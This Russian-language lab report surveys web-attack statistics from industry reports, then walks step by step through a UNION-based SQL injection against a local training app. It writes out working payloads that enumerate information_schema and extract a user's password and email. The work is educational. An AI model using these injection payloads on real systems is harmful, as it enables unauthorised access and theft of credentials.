# Лабораторная работа №1

## Часть I

### 1. Positive Technologies

#### 1.1 [Ссылка на источник](https://ptsecurity.com/research/analytics/russia-cyberthreat-landscape-2026/#id2)

#### 1.2 Доля успешных атак
32% от всех атак на организации начинаются с эксплуатации уязвимостей в веб-ресурсах на периметре. 
В атаках на госучреждения этот показатель достигает 36%.



#### 1.3 Распределение по уязвимостям:

- Недостатки контроля доступа (Broken Access Control) — 26%

- Инъекции (включая SQLi, Command Injection) — 19%

- Межсайтовый скриптинг (XSS) — 14%

- Использование компонентов с известными уязвимостями — 12%

#### 1.4 Scope
Организации в России и СНГ (госсектор, промышленность, финансы).


### 2. Rostelecom-Solar

#### 1.1 [Ссылка на источник](https://rt-solar.ru/solar-4rays/blog/6142/)

#### 1.2 Доля успешных атак
Отчет за 3-ий квартал 2025 года
Веб-атаки составляют 24% от всех критических инцидентов, зафиксированных в коммерческом секторе РФ.

#### 1.3 Распределение по уязвимостям:

- CWE-89: внедрение SQL-кода (SQL-инъекция) — 14%

- CWE-79: недостаточная нейтрализация ввода при формировании веб-страницы (XSS) — 17.8%

- CWE-434: неограниченная загрузка файлов опасного типа — 5.8%

- CWE-639: обход авторизации через управляемый пользователем ключ (IDOR) — 5.4%



#### 1.4 Scope
Российский крупный бизнес и IT-компании.

### 3. Verizon DBIR 2025

#### 1.1 [Ссылка на источник](https://www.verizon.com/business/resources/reports/dbir/)

#### 1.2 Доля успешных атак
Эксплуатация уязвимостей как вектор начального доступа (Initial Access) выросла на 34% и достигла 20% от всех взломов.

#### 1.3 Распределение по уязвимостям:

- Exploitation of Vulnerabilities: Рост популярности метода как вектора входа составил 34% год к году.

- SQL-инъекции (SQLi): Несмотря на снижение в общем объеме кода, они по-прежнему составляют ~12% от всех критических находок в веб-приложениях по данным партнеров (Edgescan).

- CWE-89 (Improper Neutralization of Special Elements used in an SQL Command): Занимает 1-е место по потенциальному ущербу (Impact) среди всех типов инъекций.

#### 1.4 Scope
Глобальный охват. Основной тренд 2025 года

## Часть II

Для выполнения запросов воспользуюсь программой ```Postman```

### 1. Запуск приложения

В директории с ```docker-compose.yaml```

Вводим команду 

```
docker compose up -d
```

В браузере открываем по адресу ```http://localhost:8080```


Далее нажимаем ```Установить/сбросить базу --> Приступить к выполнению заданий``` 



В query-параметр ```id``` будем записывать инъекцию

### 2. Выясняем, какая БД

Отправляем запрос с ошибкой в синтаксисе

```
http://localhost:8080/task/?id=' OR o=1
```

По ответу выясняем, что БД - ```MySQL```.



### 3. Находим схему БД

#### 3.1 Найдем базу

При помощи ```Union``` и ```select database()```
выясняем базу, к которой есть подключение

```
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT database(), null, null -- 
```

```0=1``` - условие, чтобы первый запрос ничего не вернул.

Подбираем количество null во втором запросе. 
Пониманием, что первый запрос возвращает 3 колонки, чтобы подогнать под ```Union```



При смене колонок, понимаем, что выходные поля - первые две колонки соответственно

```
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT 'addwa', database(), 'dadaa' -- 
```



#### 3.2 Таблицы

Для MySQL таблицы разполагаются в таблице

```information_schema.tables```

При помощи ```Limit``` и ```offset``` достаем таблицы по одной
```
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT table_name, null, null FROM information_schema.tables WHERE table_schema = database() LIMIT 1 OFFSET 0 -- 
```


```
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT table_name, null, null FROM information_schema.tables WHERE table_schema = database() LIMIT 1 OFFSET 1 -- 
```



```
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT table_name, null, null FROM information_schema.tables WHERE table_schema = database() LIMIT 1 OFFSET 2 -- 
```



Итого: 2 таблицы - ```users``` и ```emails```


#### 3.3 Колонки

Информация о колонках таблицы хранится в таблице

```information_schema.columns```
в колонке ```column_name```

```
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT table_name, column_name, null FROM information_schema.columns WHERE table_name = 'users' LIMIT 1 OFFSET 0 -- 
```



Аналогично смещая ```offset``` находим колонки для обеих таблиц

1. users
    - USER - метаинформация 
    - CURRENT_CONNECTIONS - метаинформация 
    - TOTAL_CONNECTIONS - метаинформация 
    - id
    - username
    - password
2. emails
    - id
    - email_id

### 4. Находим пароль пользователя 'Volk2'

Достаем запросом пароль - ```Wa spoiuuuuu```

```
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT id, password, null from users where username = 'Volk2' -- 
```



### 5. Находим почту

Джойним две таблицы по айди и получаем почту

```
honey_lover@otus-lab.com
```

```
http://localhost:8080/task/?id=' OR 0=1 UNION SELECT 1 as id, email_id as username, null from users join emails on emails.id = users.id where users.username  = 'Vinni-pukh' -- 
```


